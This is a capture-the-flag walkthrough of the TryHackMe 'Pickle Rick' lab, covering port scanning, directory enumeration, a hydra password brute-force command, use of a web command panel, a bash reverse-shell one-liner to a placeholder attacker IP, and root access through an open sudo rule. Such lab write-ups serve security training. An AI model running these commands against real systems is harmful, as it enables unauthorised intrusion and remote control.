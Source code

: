 # Pickle Rick

<b>Available at:</b> [TryHackMe](https://tryhackme.com/room/picklerick)

IP: 10.10.0.135

### Initial scan

`nmap -sC -sV -oN nmap.txt -vv -p- 10.10.0.135`

`-sC` -> default scripts

`-sV` -> tell us the verisons of running services

`-oN nmap.txt` -> write the ouput into a file called 'nmap.txt'

`-vv` -> set verbosity to level 2

`-p-` -> scan all ports

### Open Ports

80 meaning an http server and 22 which is ssh

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:12:ce:df:f7:9a:2b:9e:97:7d:c1:39:e4:3c:df:48 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4foPbmOjfcIrXu3IJCBFcHjm0rHko8N1WsXQLum5p740xUrBgcL8tfW1HY9hkyuK+jcUX5YLSUVFvNDnMFYwD4trWdieY+XvKFQg+OApJBE3THPkiXhkU8FfiubEsQ8UD7gEEHZsxjKL8PMrsCQIxpY+r7ClLFT3KPry82IaZC4Iecq6SZLXJUCi84ZzMBV0+zrV3QH+5U3ywVmBGu9fJiEbBoHaOm51/vhNx7451U6Socojjr2md3kr1VnPYmHiECg/D7P9NG9p+UD4ZmGdjkPSxYOLVb9qW7VKh/QPro/8TKz3Xgsz2cM0VwOIwKy2LvfbkPvXjW002pPcTLGGp
|   256 1e:83:24:55:dc:41:c3:14:08:0d:f8:2b:ab:40:bf:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFHxx3PVd2BRCPBf2gOQtxGB8qjtct/augcA5gsxgoM9wm+rufC0o5/8TWrcZIwxYOhuVwGzGqhOTDo2Rso3oZk=
|   256 ff:20:ec:03:c6:82:02:7b:1f:5a:cd:fb:65:5c:ee:e7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMVagIW9FgwDEjyxoefbfWBpRdA3e2hkmGs/1PAplz0M
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enumeration

Using my tool webctf, we can see that the page has a username in the comments!

```
webctf http://10.10.0.135/ --comments

=============
COMMENTS
=============

[+] 1 :  

    Note to self, remember username!

    Username: R1ckRul3s

```
We have a username, time to start gobuster!

`gobuster dir -u http://10.10.0.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25`

running gobuster like this didnt get me much, so I ran dirbuster. Looked for extensions `.php .js .txt .py`

#### Dirbuster results

Only the interesting stuff

```
/login.php
/portal.php
/robots.txt
```
`portal.php` redirects to `login.php`.... just like a portal!

We get a login page, so time for some burp.

When sending a login request, the following parameters are sent to the server

`username=R1ckRul3s&password=p1ckl3&sub=Login`

This screams hydra to me.

`hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt http://10.10.0.135 http-post-form/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -V -f -t 15`

Since this wasn't returning anything for quite sometime I looked at robots.txt 
Could this be a password? (Hint: Yes)

## What is the first ingredient Rick needs?

We have entered into `/portal.php` what could we do here? 

The welcome page has a command panel, lets try and use it!

Before that, I quickly checked out the source code, found an interesting comment
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```
This turned out to be a dead end. So i typed `ls` into the command prompt and viola

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
at /Sup3rS3cretPickl3Ingred.txt we have the first ingredient, and there is also a clue.txt!

## Whats the second ingredient Rick needs?

clue: `Look around the file system for the other ingredient.` So let's do that. By trying `cd ..; pwd` I found out that we can move around. Could we maybe get a reverse shell??

`/bin/bash -i >& /dev/tcp/YOUR_THM_VPN_IP/8888 0>&1` and ran `nc -lvnp 8888` in another tab. But no luck.

After playing around a bit, I found `/home/rick/second ingredient` but the `cat` command is disabled! 
What else could we do? Well, how about a python http server. 

`which python3` shows that python3 is installed, so lets try it.


<b>WARNING dont do this! I had to restart my room instance</b>

I tried being creative, wasnt worth it :D Just use the `less` command on the file.

`cd /home/rick; python3 -m http.server --bind 10.10.0.135 8888` the site hangs, so it is running! Visit it on the correct port, and viola again. 

## Whats the final ingredient Rick needs?

Now, how can we escelate to the root user and find our last ingredient?

running `sudo -l` to see what we can do as sudo.... well

```
User www-data may run the following commands on ip-10-10-238-28.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can do anything. So lets try `sudo -la /root/`

Output:

```
.
..
.bashrc
.profile
.ssh
3rd.txt
snap
```
Now just `sudo less` the file, and there we go!

